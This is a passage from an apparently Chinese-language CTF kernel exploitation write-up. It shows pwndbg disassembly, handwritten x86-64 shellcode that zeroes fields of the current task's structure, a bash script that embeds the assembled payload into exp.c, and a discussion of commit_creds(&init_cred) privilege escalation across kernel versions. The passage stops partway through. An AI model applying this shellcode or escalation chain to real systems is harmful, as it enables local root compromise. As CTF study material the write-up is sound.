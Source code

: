 又到 ida 或 gdb 中找到与之相对应的汇编代码：

```c
pwndbg> x/32i 0xffffffff881bb400
   0xffffffff881bb400:  nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff881bb405:  push   r12
   0xffffffff881bb407:  mov    r12,QWORD PTR gs:0x20cc0
   0xffffffff881bb410:  push   rbp
   0xffffffff881bb411:  push   rbx
   0xffffffff881bb412:  mov    rbp,QWORD PTR [r12+0x7d0]
```

最终写出如下 shellcode：

```c
	[BITS 64]

	mov r12, qword [gs:0x20cc0]
	mov r12, [r12 + 0x7d0]
	mov qword [r12], 0
	mov qword [r12+8], 0
	mov qword [r12+0x10], 0
	mov qword [r12+0x18], 0
	mov qword [r12+0x20], 0
	mov qword [r12+0x28], 0
	ret
```

用脚本：

```bash
nasm -f bin -o ./exp.bin ./exp.s

BINARY_FILE="./exp.bin"
C_SOURCE_FILE="./exp.c"

HEX_PAYLOAD=$(xxd -p $BINARY_FILE | fold -w2 | sed 's/^/\\x/' | tr -d '\n')
sed -i "s/char payload\[\] = \".*\";/char payload[] = \"$HEX_PAYLOAD\";/" $C_SOURCE_FILE
```

塞到 exp.c 中编译上传后即可完成利用。

#### Solution-2: Commit Root Cred

> `commit_creds(&init_cred)`

在较老版本中，有一条常见的提权利用链：`commit_creds(prepare_kernel_cred(0))`，但是近期 kernel 更新中这条利用链失效了，因为 `prepare_kernel_cred(0)` 不再返回 root 权限的 cred：

> 这里是否还能利用存疑，我查找了最新版的 kernel 源码（[6.8.1](https://elixir.bootlin.com/linux/v6.8.1/source/kernel/cred.c#L634)）发现确实已经无法利用，若参数为 NULL 则会直接返回 NULL；但是在较新的版本（检查了 [6.1.61](https://elixir.bootlin.com/linux/v6.1.61/source/kernel/cred.c#L726)）是仍然能够实现利用的，故这种较简单的方法在比赛中未尝不可一试。

这时候就要想其它办法来获得一个 root cred 了，最容易想到的就是 `init_cred`，在有调试信息的 kernel 中可以直接从符号表获得其 `kaslr` 偏移（`p &init_cred`），但是现在很多题都不会给调试信息，这时候确实可以用 config 去编译一份调试信息，但更简单的方法还是从其它函数里「借鉴」。

1. 获取 kaslr 偏移：
